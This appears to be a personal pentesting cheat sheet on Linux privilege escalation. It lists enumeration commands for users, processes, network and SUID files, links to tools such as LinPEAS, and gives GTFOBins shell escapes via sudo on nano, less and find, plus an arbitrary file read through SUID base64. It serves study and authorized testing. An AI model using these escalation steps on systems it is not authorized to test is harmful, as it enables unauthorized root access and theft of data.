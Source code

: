 # Linux Previlege Escalation

## System Enumeration
### Basic Informations
```
hostname
uname -a
id
history
cat /proc/version #for kernel and gcc version
cat /etc/issue
cat /etc/passwd
```
### Process Informations
```
ps       #show processes in the current shell(session or terminal,eg.pts)
ps -A    #view all running processes regardless of in which the session they are running
ps axjf  #view process tree
pstree   #view process tree
```
```
ps aux
a - all processes on the system
u - display the user by which the process is launched
x - show processes that are not attached to a terminal
jf - display in tree like format 
```
### Environmental Variables
```
env
echo $PATH
```

### Network Informations

```
netstat -an
netstat -4anp
netstat -4lnp
netstat -at #tcp
netstat -au #udp
netstat -l #list listening ports
netstat -lt4
netstat -s #satistics
netstat -i #interface information
netstat -rn #routing table
netstat -4ano #o for display timers
```
```
ip addr show
ip -br -c addr show
ip route
ifconfig
ifconfig -a
```

### Finding Files

```
find / -mtime 10	#modified time in last 10 days
find / -atime 10	#accessed time in last 10 days
find / -cmin -60	#changed within last 60 mins
find / -amin -60	#access within last 60 mins
```
```
find / -size 50M	#find files with 50M size
find / -size +50M	#find files bigger than 50M size
find / -size -50M	#find files smaller than 50M size
```
```
find / -type d -writable 2>/dev/null		    #writable directories
find / -type d -perm -222 2>/dev/null		    #at least readable directories 
find / -type d -perm -o=w 2>/dev/null		    #directories that can be written by anyone at least
find / -type d -perm -o=x 2>/dev/null		    #world executable directories
find / -type f -perm -4000 2>/dev/null		  #files with suid permission
find / -type f -perm -u=s 2>/dev/null		    #files with suid permission
find / -type f -perm -4000 -ls 2>/dev/null  #files with suid permission (long listing)
```

### Automated Enumeration Tools

- [LinPeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
- [LinEnum](https://github.com/rebootuser/LinEnum)
- [LES (Linux Exploit Suggester)](https://github.com/mzet-/linux-exploit-suggester)
- [Linux Smart Enumeration](https://github.com/diego-treitos/linux-smart-enumeration)
- [Linux Priv Checker](https://github.com/linted/linuxprivchecker)

### Sudo Privileges

#### Checking For `sudo` Permissions
```
sudo -l
```
#### Abusing `sudo` permission on `nano`
The following is extrected from [GTFO bins](https://gtfobins.github.io/gtfobins/nano/)
```
sudo nano
^R^X
reset; sh 1>&0 2>&0
```

#### Abusing `sudo` permission on `less`
The following is extrected from [GTFO bins](https://gtfobins.github.io/gtfobins/less/)
```
sudo less /etc/profile
!/bin/sh
```

#### Abusing `sudo` permission on `find`
The following is extrected from [GTFO bins](https://gtfobins.github.io/gtfobins/find/)
```
sudo find . -exec /bin/sh \; -quit
```

### SUID and SGID

#### Finding Files with SUID/SGID Permissions
```
find / -type f -perm -4000 -ls 2>/dev/null #print suid files and also sgid fils
find / -type f -perm -2000 -ls 2>/dev/null #print only sgid files
```

#### SUID vs SGID 
```
SUID (SetUID):
        Octal value: 4000
        Binary representation: 10000000000
        Effect: When set on an executable file, the file is executed with the privileges of the file owner (rather than the user executing the file).

SGID (SetGID):
        Octal value: 2000
        Binary representation: 01000000000
        Effect:
            When set on an executable file, the file is executed with the privileges of the group that owns the file.
            When set on a directory, files created within the directory inherit the group ownership of the directory (rather than the primary group of the user creating the file).
```

#### Abusing SUID permission on `base64`

The following is extrected from [GTFO bins](https://gtfobins.github.io/gtfobins/base64/)
```
sudo install -m =xs $(which base64) .

LFILE=file_to_read
./base64 "$LFILE" | base64 --decode
```
